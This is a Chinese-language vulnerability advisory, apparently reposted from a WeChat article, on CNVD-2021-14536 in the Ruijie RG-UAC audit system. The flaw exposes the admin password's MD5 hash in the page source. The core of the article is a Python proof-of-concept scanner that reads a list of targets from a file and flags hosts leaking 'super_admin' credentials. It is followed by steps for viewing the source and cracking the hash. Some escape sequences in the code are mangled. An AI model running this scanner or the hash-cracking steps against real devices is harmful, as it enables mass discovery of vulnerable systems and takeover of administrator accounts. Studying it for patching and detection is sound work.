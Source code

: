 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/0r5UqqqHHaV-UaGGNGUR1Q)

漏洞描述
----

锐捷 RG-UAC 统一上网行为管理审计系统存在信息泄露漏洞，攻击者可以通过审查网页源代码获取到用户账号和密码，导致管理员用户认证信息泄露。

漏洞编号
----

*   CNVD-2021-14536
    

利用类型
----

远程

漏洞分类
----

*   php
    

适用版本
----

锐捷 RG-UAC 统一上网行为管理审计系统

标签
--

*   php
    
*   IOT
    

发布日期
----

2021.03.08

漏洞等级
----

高危

漏洞原理
----

源码内密码的 hash

漏洞利用
----

### 利用脚本

```
  import requests
  import sys
  import random
  import re
  from requests.packages.urllib3.exceptions import InsecureRequestWarning

  def title():
      print('+------------------------------------------')
      print('+ 33[34mPOC_Des: http://wiki.peiqi.tech                                   33[0m')
      print('+ 33[34mGithub : https://github.com/PeiQi0                                 33[0m')
      print('+ 33[34m公众号 : PeiQi文库                                                     33[0m')
      print('+ 33[34mVersion: 锐捷RG-UAC统一上网行为管理审计系统                             33[0m')
      print('+ 33[36m使用格式: python3 poc.py                                           33[0m')
      print('+ 33[36mFile         >>> ip.txt                             33[0m')
      print('+------------------------------------------')

  def POC_1(target_url):
      vuln_url = target_url
      headers = {
          "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
      }
      try:
          requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
          response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
          if "super_admin" in response.text and "password" in response.text and response.status_code == 200:
              print("33[32m[o] 目标 {}存在漏洞 ,F12查看源码获取密码md5值 33[0m".format(target_url))
          else:
              print("33[31m[x] 目标 {}不存在漏洞 33[0m".format(target_url))
      except Exception as e:
          print("33[31m[x] 目标 {}不存在漏洞 33[0m".format(target_url))

  def Scan(file_name):
      with open(file_name, "r", encoding='utf8') as scan_url:
          for url in scan_url:
              if url[:4] != "http":
                  url = "http://" + url
              url = url.strip('n')
              try:
                  POC_1(url)

              except Exception as e:
                  print("33[31m[x] 请求报错 33[0m".format(e))
                  continue

  if __name__ == '__main__':
      title()
      file_name = str(input("33[35mPlease input Attack FilenFile >>> 33[0m"))
      Scan(file_name)
```

### 利用方法

*   查看源码
    

*   找到密码的 hash
    
*   md5 解密
    

### 利用过程

![](https://mmbiz.qpic.cn/mmbiz_png/qjS1tDsz9MXsY4xUTfskgxhKOO2hFy9uzibVqU1QfsupTVIWjLl7YYk5Q0zE7LWNrOH79gqepda5gwB4l3nZapg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/qjS1tDsz9MXsY4xUTfskgxhKOO2hFy9upXjDxGAc8NdtgjtWdVxGnzFf7s3Tt51zmf3x1X48fmLIMzWniaEjotQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/qjS1tDsz9MXsY4xUTfskgxhKOO2hFy9uS2j3oN1Egp8Mxx1vOklRNTPsHHmeC5x7OBysdt7ednL7cb4XsyT0kQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/qjS1tDsz9MXsY4xUTfskgxhKOO2hFy9u2Ll0Vsz8mgNdTxyl8icQzenR8FQ61BMg3oQVYZVnxxIxCfDMicBENx5g/640?wx_fmt=png)

参考链接
----

*   https://blog.csdn.net/Adminxe/article/details/114584215